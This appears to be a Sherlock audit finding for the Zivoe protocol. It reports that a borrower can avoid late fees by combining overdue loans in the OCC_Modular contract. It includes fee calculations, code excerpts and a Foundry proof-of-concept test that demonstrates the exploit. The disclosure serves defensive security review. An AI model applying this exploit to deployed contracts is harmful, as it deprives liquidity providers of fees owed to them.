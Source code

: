 Breezy Taffy Dolphin

medium

# Users can avoid paying late fees by using Combines loans.

## Summary
Users can avoid paying late fees by using Combines loans.
## Vulnerability Detail
Assume:

Tim has two loans (loan_0 and loan_1)

`loan_0`:
borrowAmount = 10 ether;
APR = 3525;
APRLateFee = 3525;
gracePeriod = 604800;
option = 86400 * 7;
paymentSchedule = 1;

`loan_1`:
borrowAmount = 200 ether;
APR = 3525;
APRLateFee = 3525;
gracePeriod = 604800;
option = 86400 * 7;
paymentSchedule = 1;

After next payment, skip(`paymentDueBy`) ,` loan_1` late fee incurred (3.837e21)
```solidity
if (block.timestamp > loans[id].paymentDueBy && loans[id].state == LoanState.Active) {
            lateFee = loans[id].principalOwed * (block.timestamp - loans[id].paymentDueBy) *
                loans[id].APRLateFee / (86400 * 365 * BIPS);
        }
```
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L451

Meanwhile:
`loan_0` interestOwed =6.76e16
`loan_1` interestOwed =1.352e18
```solidity
interest = loans[id].principalOwed * loans[id].paymentInterval * loans[id].APR / (86400 * 365 * BIPS);
```
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L455

After Combines loans ( loan_2), `loan_2` lateFee=0, `loan_2` interestOwed = 6.76e16+1.352e18 (loan_0 interestOwed+loan_1 interestOwed),
since` loan_2  interestOwed` was equal before and after combines loans and `lateFee`=0, Tim didn't lose anything

## Impact
1.Users can avoid paying late fees

2.LPs will lose  late fees
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L505


POC:
src/TESTS_Lockers/Test_OCC_Modular.sol

```solidity
function testpoc(uint96 random) public{
        uint256 amount = uint256(random);
        simulateITO(amount * WAD, amount * WAD, amount * USD, amount * USD);
        assert(god.try_push(address(DAO), address(OCC_Modular_DAI), DAI, amount, ""));

        uint256 borrowAmount = 10 ether;
        uint256 APR = 3525;
        uint256 APRLateFee = 3525;
        uint256 term = 3;
        uint256 gracePeriod = 604800;
        uint256 option = 86400 * 7;
        int8 paymentSchedule = int8(1);

        uint256 loanID_01 = OCC_Modular_DAI.loanCounter();
            assert(roy.try_createOffer(
                address(OCC_Modular_DAI),
                address(tim),
                borrowAmount,
                APR,
                APRLateFee,
                term,
                option,
                gracePeriod,
                paymentSchedule
            ));

            uint256 borrowAmount02 = 200 ether;

            uint256 loanID_02 = OCC_Modular_DAI.loanCounter();
            assert(roy.try_createOffer(
                address(OCC_Modular_DAI),
                address(tim),
                borrowAmount02,
                APR,
                APRLateFee,
                term,
                option,
                gracePeriod,
                paymentSchedule
            ));

            assert(tim.try_acceptOffer(address(OCC_Modular_DAI), loanID_01));
            assert(tim.try_acceptOffer(address(OCC_Modular_DAI), loanID_02));
            mint("DAI", address(tim), MAX_UINT / 10**18);
            assert(tim.try_approveToken(address(DAI), address(OCC_Modular_DAI), MAX_UINT / 10**18));

            (,, uint256[10] memory _preInfo_01) = OCC_Modular_DAI.loanInfo(0);
            (,, uint256[10] memory _preInfo_02) = OCC_Modular_DAI.loanInfo(1);
            //skip(`paymentDueBy`)  
            hevm.warp(_preInfo_01[3]+block.timestamp);
            (, , uint256 lateFee1,) = OCC_Modular_DAI.amountOwed(1);
            //loan_1   lateFee1 =3.837e21
            assertNotEq(lateFee1,0);
         
            

            uint256[] memory loanIDs = new uint256[](2);
            loanIDs[0] = 0;
            loanIDs[1] = 1;
       
        /******
        
        Combines loans
        **** */
        hevm.startPrank(address(roy));
        OCC_Modular_DAI.approveCombine(loanIDs, APRLateFee, term, option, gracePeriod, paymentSchedule);
        hevm.stopPrank();

        hevm.startPrank(address(tim));
        
        OCC_Modular_DAI.applyCombine(0);
        hevm.stopPrank();
        
        (, uint256 interestOwed3, uint256 lateFee3,) = OCC_Modular_DAI.amountOwed(2);

        //interestOwed is equal after Combine
        assertEq(_preInfo_01[0] * _preInfo_01[6] * _preInfo_01[1] / (86400 * 365 * BIPS)+
        _preInfo_02[0] * _preInfo_02[6] * _preInfo_02[1] / (86400 * 365 * BIPS),
        interestOwed3);

        //loan_0  interestOwed  =6.76e16
        console2.log(_preInfo_01[0] * _preInfo_01[6] * _preInfo_01[1] / (86400 * 365 * BIPS));
        //loan_1  interestOwed =1.352e18
        console2.log(_preInfo_02[0] * _preInfo_02[6] * _preInfo_02[1] / (86400 * 365 * BIPS));
        //loan_2  lateFee=0
        assertEq(lateFee3, 0);
    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCC/OCC_Modular.sol#L742
## Tool used

Manual Review

## Recommendation
Consider calculating late fees before combines loans